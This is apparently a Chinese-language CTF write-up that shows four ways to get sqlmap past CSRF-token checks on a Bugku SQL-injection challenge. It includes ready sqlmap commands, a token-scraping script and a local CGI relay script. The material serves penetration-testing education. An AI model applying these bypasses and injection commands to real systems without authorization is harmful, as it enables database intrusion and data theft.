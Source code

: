 ```yaml
---
title: sqlmap CSRF-token 绕过姿势
tags:
  - Summary
  - SQLi
date: 2019-03-25 00:23:00
---
```

CSRF(Cross-site request forgery 跨站请求伪造)主流防御方式是在后端生成表单的时候生成一串随机 token ，内置到表单里成为一个字段，同时，将此串 token 置入 session 中。每次表单提交到后端时都会检查这两个值是否一致，以此来判断此次表单提交是否是可信的。提交过一次之后，如果这个页面没有生成 CSRF token ，那么 token 将会被清空，如果有新的需求，那么 token 会被更新。

<!--more-->

当我们在使用sqlmap自动化进行SQL注入时，有些场景下需要解决csrf-token验证问题，本文结合[CTF_论剑场](https://new.bugku.com) web8 样例进行演示常见的4种绕过方式:结合BurpSuite宏绕过、eval参数绕过、通过Python CGIHTTPServer绕过以及通过--csrf-url/token参数绕过~

题目在update.php里`age`更新处存在`数字型SQL注入`，每次提交更新需要验证`token`值，不符合则会触发**CSRF token mismatch**，这里的token为前端赋值~

![](/assets/images/move/1552118730410-ae528994-5ea0-4de2-b3fb-3c6b4f2e4c67.png)

## BurpSuite Macros

我们可以利用BurpSuite Macros录制token，获取前一次HTTP请求响应的token值，作为后续请求的输入参数，从而绕过csrf-token验证。

`Project Opition`->`Session`->`Macros`，点击`Add`添加宏:

![](/assets/images/move/1552120384862-ea454f45-a63b-4c10-a8bd-b2889bb6091c.png)

在`Macro Recorder`中选择获取token的页面后确定。

![](/assets/images/move/1552120713208-028ed873-9fcc-4889-9877-61b093cdac09.png)

![](/assets/images/move/1552121005246-d68403d7-99ff-4054-a113-010afa47a13d.png)

![](/assets/images/move/1552121156506-ef1aafd9-65ea-4d9d-829c-61adccc8024c.png)

![](/assets/images/move/1552121640868-3b2dae6d-5bec-4af7-97cf-c3b7e642df98.png)

![](/assets/images/move/1552121984945-835d9f76-3e05-44df-ad9c-735850e98d74.png)

添加规则生效的模块以及获取token界面的URL地址。

![](/assets/images/move/1552122423697-80e8dcd4-5c16-40fc-aa95-c6b837e7fecb.png)

检测是否正确工作，使用sqlmap经过burpsuite进行注入，成功绕过csrf-token~

```bash
sqlmap -r C:\Users\light\Desktop\post.txt --proxy=http://127.0.0.1:8080 --dbs -v 3
```

![](/assets/images/move/1552123107426-1234cd74-3080-4663-921b-d27520b45e8d.png)

## eval参数

```s
# sqlmap手册
--eval=EVALCODE  Evaluate provided Python code before the request 
# e.g. 每次请求时根据id参数值，做一次md5后作为hash参数的值。
"import hashlib;id2=hashlib.md5(id).hexdigest()"
```

在有些时候，需要根据某个参数的变化，而修改另个一参数，才能形成正常的请求，这时可以用--eval参数在每次请求时根据所写python代码做完修改后请求。

这里我们可以写一个脚本来获取页面csrf-token的值,通过sqlmap --eval参数将获取的token加入数据包后再发送请求进行测试，从而绕过csrf-token验证。

getToken脚本:

```python
import urllib2
import re


def get_token():
    # Load a page to generate a CSRF token
    opener = urllib2.build_opener()
    opener.addheaders.append(('Cookie', 'PHPSESSID=<insert PHPSESSID>'))
    page = opener.open('http://<insert url>/index.php').read()
    # Extract the token
    match = re.search(r'<input type="hidden" name="token" value="(.+)">', page)
    return match.group(1)
```

执行命令验证：

```bash
python2 sqlmap.py -r C:\Users\light\Desktop\post.txt --eval="import getToken; token = getToken.get_token()" -v 3 -p "age" --current-db
```

![](/assets/images/move/1552148260954-ff0d7e2e-9d4b-4831-af17-fe62d6a8af4a.png)

成功绕过，但受python脚本运行影响效率较低~

## Python CGIHTTPServer

CGI(Common Gateway Interface)是服务器和应用脚本之间的一套接口标准。它的功能是让服务器程序运行脚本程序，将程序的输出作为response发送给客户。总体的效果，是允许服务器动态的生成回复内容，而不必局限于静态文件。

支持CGI的服务器程接收到客户的请求，根据请求中的URL，运行对应的脚本文件。服务器会将HTTP请求的信息和socket信息传递给脚本文件，并等待脚本的输出。脚本的输出封装成合法的HTTP回复，发送给客户。CGI可以充分发挥服务器的可编程性，让服务器变得“更聪明”。

现在我们通过CGIHTTPServer即可在本地tcp端口监听,动态修改数据包，无需配置和刻意提交token,即可使用sqlmap检测sql注入。

创建CGI脚本如下:

```python
import cgi,cgitb
from mechanize import Browser
cgitb.enable() #允许发生错误时浏览器打印通知

url = "http://your-url/index.php"

def respond(string):
    print("Content-Type: text/html")
    print()
    print(string)
    quit()

form = cgi.FieldStorage()
u = form["username"].value
p = form["password"].value

b = Browser()
b.set_handle_robots(False)
b.open(url)
b.select_form(nr=0)
b.form["username"] = u
b.form["password"] = p
b.submit()
respond(b.title())
```

目录结构:
```bash
csrf-token # 自定义
└─cgi-bin # 设置为cgi-bin
    └─token.py # 自定义脚本名称
```

Python3下执行命令:`python -m http.server --cgi 8000`开启CGIHTTPServer.

浏览器访问:http://127.0.0.1:8000/cgi-bin/token.py?username=x3nd&password=x3nd.


![](/assets/images/move/1552129345855-41183c20-05af-4bce-a6dc-8fe91180ed78.png)

打印了成功登陆后的页面标题，表明登陆成功，现在我们可以直接运行sqlmap尽情测试了。

```bash
sqlmap -r C:\Users\light\Desktop\post.txt --current-db
```

![](/assets/images/move/1552184470820-e0c4692b-c7c0-411e-88e0-13420c19af84.png)


## --csrf-url/token

在sqlmap usage里 Requests模块中描述：

```bash
# --csrf-token 用于保存反CSRF令牌的参数
--csrf-token=CSR..  Parameter used to hold anti-CSRF token
# --csrf-url 用于提取反CSRF令牌的URL地址
--csrf-url=CSRFURL  URL address to visit to extract anti-CSRF token
```

> [Implement anti-CSRF protection bypass](https://github.com/sqlmapproject/sqlmap/issues/2)


sqlmap在注入过程中对于一些易识别的参数关键字如"token"、"nonce"进行了识别，会询问是否进行anti-CSRF操作，但默认获取csrf的地址为数据包中的地址，如本题目中的`update.php`，而`token`的获取在这里应该是`index.php`界面，这时就需要我们分析并指定--csrf-token以及--csrf-url方便sqlmap进行anti-CSRF。

```bash
sqlmap -r C:\Users\light\Desktop\post.txt --csrf-url="http://123.xxx.xxx.85:10008/index.php" --csrf-token=token --dbs
```

![](/assets/images/move/1552185625050-5eb57679-0fa8-4fec-ab89-48d0af4fb47b.png)


sqlmap+BurpSuite Macros绕过csrf-token繁琐在csrf-token宏的会话录制处理，--eval参数配置脚本则需要我们自写获取token的python脚本且运行效率较慢，通过类似中间层作用的Python CGIHTTPServer绕过时，可以在使用sqlmap或burpsuite等工具测试时不需要进行额外的操作，sqlmap官方提供的anti-CSRF策略(--csrf-url/token)不失为一种方便操作的办法。